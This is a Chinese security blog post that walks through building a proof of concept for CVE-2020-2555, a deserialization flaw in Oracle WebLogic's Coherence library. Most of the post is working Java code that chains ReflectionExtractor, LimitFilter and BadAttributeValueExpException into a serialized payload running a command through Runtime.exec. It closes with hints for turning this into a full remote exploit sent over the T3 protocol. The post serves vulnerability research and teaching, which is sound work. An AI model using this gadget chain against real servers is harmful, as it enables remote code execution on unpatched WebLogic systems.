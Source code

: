 
# 教你一步一步构造CVE-2020-2555 POC


                                阅读量   
                                **765395**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">8</a>
                                </b>
                                                                                                                                    ![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](./img/200384/t01a447f40c8e46ca5f.png)](./img/200384/t01a447f40c8e46ca5f.png)



## 1、前言

欸欸欸，不想写论文，起床发现[https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)爆出CVE-2020-2555新的gadget细节了，打发打发时间试着写写POC。本文POC构造将会比较详细，挖JDK gadget大佬自动略过吧，还有本文只是POC，不包含exp，那些想要exp的大佬们也直接略过吧，但是你好好读文章构造出exp也不是什么难事，最后会给出exp的思路。



### <a class="reference-link" name="2%E3%80%81gadget%E5%88%86%E6%9E%90%E6%80%9D%E8%B7%AF"></a>2、gadget分析思路

漏洞的gadget如下，需要导入coherence.jar，weblogic12.3.6 lib包下有：

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0144699912ef476a03.jpg)

先抛开上面的gadget总结一下挖掘java反序列化的思路如下：

**挖掘java反序列化的思路**

1、首先要找到反序列化入口（source）<br>
2、调用链（gadget）<br>
3、触发漏洞的目标方法（sink）<br>
反序列化漏洞的挖掘，本质上就是一个已知source和sink，如何走通整个调用流程的问题。在这里的source，可以包括
1. Java原生的反序列化，即通过ObjectInputStream.readObject()，处理二进制格式内容，得到Java对象
专有格式的反序列化，例如通过Fastjson, Xstream等第三方库，处理json, xml等格式内容，得到Java对象<br>**执行目标sink,包括：**
1. Runtime.exec()，这种最为简单直接，即直接在目标环境中执行命令
1. Method.invoke()，这种需要适当地选择方法和参数，通过反射执行Java方法
1. RMI/JNDI/JRMP等，通过引用远程对象，间接实现任意代码执行的效果
**从source出发，递归检查其所有方法调用，如果能够执行到sink就是一条gadget。**<br>
拿这条gadget举例，source入口点是BadAttributeValueExpException的readObject函数。读个ysoserial工具源码的都知道CommonsCollections5这条gadget就是通过BadAttributeValueExpException触发的。sink点则是Method.invoke()通过反射方法执行



## 3、POC构造过程

**构造poc首先从sink点触发，ReflectionExtractor类的extract函数**

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f672c0ef244b46d5.jpg)

所以构造如下代码是可以弹计算器的：

```
public static void main(String[] args) {
        Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        reflectionExtractor.extract(runtime);
    }
```

反射方式触发：

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f40a0ee309c1648b.jpg)

再往上回溯，谁触发extract函数，这就找到LimitFilter类的toString()方法：

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d7969263767a8bca.jpg)

在写段代码：

```
public static void main(String[] args) {
        Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        reflectionExtractor.extract(runtime);
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(runtime);
        limitFilter.toString();
    }
```

将runtime对象赋值给m_oAnchorTop

```
limitFilter.setTopAnchor(runtime);
```

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01db4d3f614fe8d542.jpg)

将reflectionExtractor赋值给m_comparator

```
limitFilter.setComparator(reflectionExtractor);
```

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01714de980b8f38336.jpg)

看图的标注，执行2就相当于执行`reflectionExtractor.extract(runtime)`,就跟POC1构造的一样了。

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0104531ede8cdb61a1.jpg)

效果就是这样：

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01359dded8791c1adf.jpg)

在向上回溯，谁触发LimitFilter类的toString()。这也就来到的source入口点，通过BadAttributeValueExpException的readObject函数。读个ysoserial工具源码的都知道CommonsCollections5这就是通过BadAttributeValueExpException触发的。所以要想看明白这里需要先看懂CommonsCollections5，可以看我博客写的：[https://www.cnblogs.com/afanti/p/10199235.html](https://www.cnblogs.com/afanti/p/10199235.html)，之前读CommonsCollections5，做的笔记如下：

> 重写了BadAttributeValueExpException的readObject方法的val变量赋值为BadAttributeValueExpException类，就会调用BadAttributeValueExpException的val = valObj.toString();

这就好办了，把val赋值为limitFilter就会调用limitFilter的toString方法，自此打通了整条gadgets。<br>
在写一段POC:

```
Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(runtime);
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field valfield = poc.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(poc, limitFilter);

        File f = new File("poc.txt");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(poc);
        out.close();
```

然鹅，在执行时会报如下错误，Runtime这个类没实现序列化接口，小问题：

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013d9c732a1148ef2d.jpg)

首先先自定义一个危险类，如下：

```
import java.io.IOException;
import java.io.Serializable;

public class Afanti implements Serializable {
    public void exec(String shell) throws IOException {
        Runtime.getRuntime().exec(shell);
    }
}
```

完整POC如下：

```
Afanti afanti = new Afanti();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(afanti);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field valfield = poc.getClass().getDeclaredField("val");

        valfield.setAccessible(true);
        valfield.set(poc, limitFilter);

        File f = new File("poc.txt");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(poc);
        out.close();
```

调用栈如下，跟文章给的图片一样。

[![](./img/200384/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0122897c798ec75cd8.jpg)



## 4 、思路总结

本文只是教大家怎么写POC，exp就不给出来了提一提思路。既然能够执行实现序列化接口类的任意方法，参数可控，exp构造就不难了。比如：可以找一个类，类的函数有执行代码操作或者文件操作或者反序列化操作又或者jndi注入之类的。这样的类一抓一大把，会构造CVE-2019-2725的，自然知道exp怎么写。写完exp，通过t3协议发包，RCE一发入魂。最后提醒大家一点要想构造jndi的exp，jdk版本得选对，要不会遇到很多坑。（想要找危险类的可以试试我写的这篇文章的工具，改改正则：[https://www.anquanke.com/post/id/199703](https://www.anquanke.com/post/id/199703)）



## 参考链接：

[https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)<br>[https://www.oracle.com/security-alerts/cpujan2020.html](https://www.oracle.com/security-alerts/cpujan2020.html)<br>[https://www.cnblogs.com/afanti/p/10199235.html](https://www.cnblogs.com/afanti/p/10199235.html)
